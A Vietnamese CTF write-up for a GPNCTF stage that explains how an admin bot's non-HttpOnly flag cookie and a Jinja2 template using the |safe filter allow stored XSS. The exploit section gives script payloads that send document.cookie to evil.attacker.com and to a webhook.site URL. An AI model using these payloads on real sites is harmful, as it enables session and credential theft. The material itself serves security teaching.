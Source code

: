 ![image](https://github.com/user-attachments/assets/144f856f-b8d0-44a7-ae64-0a9c9b15afb9)

# **ANALYZE**

Trong ứng dụng Node.js (file app.mjs), biến môi trường FLAG_STAGE_3 được sử dụng để lưu trữ giá trị flag cho Stage 3. 

Mã nguồn đọc biến này từ môi trường hệ thống thông qua process.env. Cụ thể, đầu file app.mjs có đoạn:

```
const FLAG_STAGE_3 = process.env.FLAG_STAGE_3;
```

Mã trên cho thấy FLAG_STAGE_3 không được gán cứng trong code, mà được truyền từ bên ngoài (ví dụ: cấu hình Docker hoặc file .env khi khởi động ứng dụng)

Ở trong file `app.mjs` có đoạn : 

Ngay sau khi khởi tạo, bot Node.js sử dụng Puppeteer để mở một trình duyệt ẩn (headless browser) và thiết lập cookie chứa flag Stage 3. 

Trong hàm initializeBot() của app.mjs, ta thấy bot gọi browser.setCookie(...) hai lần: một lần để gắn cookie flag và lần khác cho cookie mật khẩu admin. 

Đối với flag Stage 3, mã nguồn như sau:
```
        const browser = await browserPromise;

        await browser.setCookie({
            domain: baseUrl.replace('http://', '').replace('https://', ''),
            name: 'FLAG',
            value: FLAG_STAGE_3,
            httpOnly: false,

        })
```
Cookie được gán trong trình duyệt Puppeteer, không có HttpOnly, nên document.cookie có thể đọc được.

Hành vi của bot
Khởi động bot → tạo note mới, đăng nhập với quyền admin

Mỗi khi có request POST /bot { url }, bot sẽ:

mở trình duyệt headless

truy cập URL chỉ định với session admin + cookie chứa FLAG

đợi 5s rồi đóng trình duyệt

```
await page.goto(url, { timeout: 5000, waitUntil: 'networkidle0' });
await new Promise(r => setTimeout(r, 5000)); // Cho phép JS chạy
```

Vị trí XSS

Trong template Flask: report_note.html

Hiển thị lý do báo cáo mà moderator nhập vào, như sau:

```
<!-- Dangerous! -->
<p>Report reason: {{ note.reason|safe }}</p>
```

 Filter |safe vô hiệu hóa escape mặc định của Jinja2, khiến nội dung HTML/JS được chèn trực tiếp vào DOM và thực thi

# **EXPLOIT**

Ta sẽ tiếp tục lợi dụng tính năng report để khai thác XSS để lấy được Flag

![image](https://github.com/user-attachments/assets/c5d9a817-39c1-41da-8eb8-2e19ac579bed)

Tạo note mới (bất kỳ nội dung)

Với quyền moderator, mở note vừa tạo → báo cáo ghi chú

Trong ô "reason for reporting", chèn payload XSS:

```
<script>
fetch("https://evil.attacker.com/log?cookie=" + document.cookie)
</script>
```

Submit form → Flask gọi /bot để báo cáo note → bot truy cập /report/<note_id> chứa payload

Payload thực thi trong trình duyệt bot → document.cookie chứa FLAG_STAGE_3 bị gửi đến attacker

Và Payload cuối cùng sẽ là : 

```
<script>
    navigator.sendBeacon(
        "https://webhook.site/c47162bb-f1c9-4a44-88ce-1703bcdad082/steal",
        new TextEncoder().encode(document.cookie)
    );
</script>
```
![image](https://github.com/user-attachments/assets/d0218f21-8d2c-4332-a131-22f4eca634f4)


# **FLAG**

```
GPNCTF{I_10Ve_sToLeN_C00KI3S}
```





